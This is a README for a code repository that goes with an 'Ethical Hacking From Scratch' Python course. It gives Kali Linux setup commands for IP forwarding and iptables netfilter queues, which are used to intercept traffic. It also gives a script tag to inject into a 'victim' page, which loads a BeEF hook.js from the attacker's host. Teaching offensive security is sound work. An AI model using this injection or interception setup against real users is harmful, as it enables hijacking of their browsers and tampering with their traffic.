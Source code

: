 # EthicalHackingCourse
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file,
BeEF framework for Kali Linux is Required.

`sudo apt-get install beef-xss`

## Guidelines

### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:

`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:

`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,

where the default `<number>` is `0`.

For local testing, use both `OUTPUT` and `INPUT` chain.

To enable a basic HTTP server, type:

`sudo service apache2 start`

### Python
It seems that *netfilterqueue* does not work on Python 3.x.

### BeEF
The code we want to inject into our victim is:

`<script src="http://<IP>:3000/hook.js"></script`,

where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.
